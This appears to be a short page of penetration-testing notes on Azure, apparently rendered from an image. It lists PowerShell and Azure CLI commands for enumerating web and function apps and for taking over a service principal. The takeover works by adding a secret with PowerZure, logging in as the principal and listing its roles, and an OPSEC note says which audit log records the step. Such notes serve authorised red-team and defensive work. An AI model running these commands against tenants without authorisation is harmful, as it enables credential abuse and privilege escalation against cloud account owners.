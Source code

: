 - General
	- `Get-AzWebApp`    `Get-AzWebApp | Select EnabledHostNames`
		- Gather information on web applications
		- Also extracted with `Get-AzDomainInfo` in MicroBurst - \\Resources\\AppServices.csv
- Function Apps
	- Check to see if source code/config files are available
- Service Principal exploitation
	- PowerZure
		- `Get-AzureAppOwner`
			- Determine if current user is assigned as the owner of a service principal
		- `Add-AzureSPSecret -ApplicationName customapp -Password myPassword456`
			- Can now authenticate as this service principal with this password and explore its permissions
			- Note Tenant/App ID in output
			- OPSEC NOTE: Azure AD audit logs will record these events with the activity type of "Update application – Certificates and secrets management".
		- `az login --service-principal --username APP_ID --password myPassword456 --tenant TENANT_ID`
			- Authenticate using Azure CLI as service principal
		- `az role assignment list --assignee APP_ID --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}'`
			- Determine role assignment of service principal